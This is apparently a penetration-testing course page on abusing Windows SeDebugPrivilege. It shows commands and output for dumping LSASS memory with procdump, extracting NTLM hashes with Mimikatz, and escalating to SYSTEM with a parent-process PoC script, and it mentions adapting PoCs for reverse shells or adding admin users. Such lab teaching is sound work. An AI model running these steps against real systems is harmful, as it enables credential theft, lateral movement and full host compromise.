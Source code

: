 # SeDebugPrivilege

To run a particular application or service or assist with troubleshooting, a user might be assigned the [SeDebugPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/debug-programs) instead of adding the account into the administrators group. This privilege can be assigned via local or domain group policy, under `Computer Settings > Windows Settings > Security Settings`. By default, only administrators are granted this privilege as it can be used to capture sensitive information from system memory, or access/modify kernel and application structures. This right may be assigned to developers who need to debug new system components as part of their day-to-day job. This user right should be given out sparingly because any account that is assigned it will have access to critical operating system components.

During an internal penetration test, it is often helpful to use websites such as LinkedIn to gather information about potential users to target. Suppose we are, for example, retrieving many NTLMv2 password hashes using `Responder` or `Inveigh`. In that case, we may want to focus our password hash cracking efforts on possible high-value accounts, such as developers who are more likely to have these types of privileges assigned to their accounts. A user may not be a local admin on a host but have rights that we cannot enumerate remotely using a tool such as BloodHound. This would be worth checking in an environment where we obtain credentials for several users and have RDP access to one or more hosts but no additional privileges.

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

After logging on as a user assigned the `Debug programs` right and opening an elevated shell, we see `SeDebugPrivilege` is listed.

```cmd-session
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeDebugPrivilege                          Debug programs                                                     Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
```

We can use [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from the [SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) suite to leverage this privilege and dump process memory. A good candidate is the Local Security Authority Subsystem Service ([LSASS](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service)) process, which stores user credentials after a user logs on to a system.

```cmd-session
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[15:25:45] Dump 1 initiated: C:\Tools\Procdump\lsass.dmp
[15:25:45] Dump 1 writing: Estimated dump file size is 42 MB.
[15:25:45] Dump 1 complete: 43 MB written in 0.5 seconds
[15:25:46] Dump count reached.
```

This is successful, and we can load this in `Mimikatz` using the `sekurlsa::minidump` command. After issuing the `sekurlsa::logonPasswords` commands, we gain the NTLM hash of the local administrator account logged on locally. We can use this to perform a pass-the-hash attack to move laterally if the same local administrator password is used on one or multiple additional systems (common in large organizations).

{% hint style="info" %}
## Use mimikatz log command

**Note:** It is always a good idea to type "log" before running any commands in "Mimikatz" this way all command output will put output to a ".txt" file. This is especially useful when dumping credentials from a server which may have many sets of credentials in memory.
{% endhint %}

```cmd-session
C:\htb> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 0 ; 23196355 (00000000:0161f2c3)
Session           : Interactive from 4
User Name         : DWM-4
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/31/2021 3:00:57 PM
SID               : S-1-5-90-0-4
        msv :
        tspkg :
        wdigest :
         * Username : WINLPE-SRV01$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
        ssp :
        credman :

<SNIP> 

Authentication Id : 0 ; 23026942 (00000000:015f5cfe)
Session           : RemoteInteractive from 2
User Name         : jordan
Domain            : WINLPE-SRV01
Logon Server      : WINLPE-SRV01
Logon Time        : 3/31/2021 2:59:52 PM
SID               : S-1-5-21-3769161915-3336846931-3985975925-1000
        msv :
         [00000003] Primary
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * NTLM     : cf3a5525ee9414229e66279623ed5c58
         * SHA1     : 3c7374127c9a60f9e5b28d3a343eb7ac972367b2
        tspkg :
        wdigest :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        kerberos :
         * Username : jordan
         * Domain   : WINLPE-SRV01
         * Password : (null)
        ssp :
        credman :

<SNIP>
```

Suppose we are unable to load tools on the target for whatever reason but have RDP access. In that case, we can take a manual memory dump of the `LSASS` process via the Task Manager by browsing to the `Details` tab, choosing the `LSASS` process, and selecting `Create dump file`. After downloading this file back to our attack system, we can process it using Mimikatz the same way as the previous example.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## Remote Code Execution as SYSTEM

We can also leverage `SeDebugPrivilege` for [RCE](https://decoder.cloud/2018/02/02/getting-system/). Using this technique, we can elevate our privileges to SYSTEM by launching a [child process](https://docs.microsoft.com/en-us/windows/win32/procthread/child-processes) and using the elevated rights granted to our account via `SeDebugPrivilege` to alter normal system behavior to inherit the token of a [parent process](https://docs.microsoft.com/en-us/windows/win32/procthread/processes-and-threads) and impersonate it. If we target a parent process running as SYSTEM (specifying the Process ID (or PID) of the target process or running program), then we can elevate our rights quickly. Let's see this in action.

First, transfer this [PoC script](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1) over to the target system. Next we just load the script and run it with the following syntax `[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")`. Note that we must add a third blank argument `""` at the end for the PoC to work properly.

{% hint style="info" %}
## Updated Script (RCE from SeDebugPrivilege)

The PoC script has received an update. Please visit its GitHub repository and review its usage. https://github.com/decoder-it/psgetsystem
{% endhint %}

First, open an elevated PowerShell console (right-click, run as admin, and type in the credentials for the `jordan` user). Next, type `tasklist` to get a listing of running processes and accompanying PIDs.

```powershell-session
PS C:\htb> tasklist 

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          4 K
System                           4 Services                   0        116 K
smss.exe                       340 Services                   0      1,212 K
csrss.exe                      444 Services                   0      4,696 K
wininit.exe                    548 Services                   0      5,240 K
csrss.exe                      556 Console                    1      5,972 K
winlogon.exe                   612 Console                    1     10,408 K
```

Here we can target `winlogon.exe` running under PID 612, which we know runs as SYSTEM on Windows hosts.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We could also use the [Get-Process](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-process?view=powershell-7.2) cmdlet to grab the PID of a well-known process that runs as SYSTEM (such as LSASS) and pass the PID directly to the script, cutting down on the number of steps required.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Other tools such as [this one](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC) exist to pop a SYSTEM shell when we have `SeDebugPrivilege`. Often we will not have RDP access to a host, so we'll have to modify our PoCs to either return a reverse shell to our attack host as SYSTEM or another command, such as adding an admin user. Play around with these PoCs and see what other ways you can achieve SYSTEM access, especially if you do not have a fully interactive session, such as when you achieve command injection or have a web shell or reverse shell connection as the user with `SeDebugPrivilege`. Keep these examples in mind in case you ever run into a situation where dumping LSASS does not result in any useful credentials (though we can get SYSTEM access with just the machine NTLM hash, but that's outside the scope of this module) and a shell or RCE as SYSTEM would be beneficial.
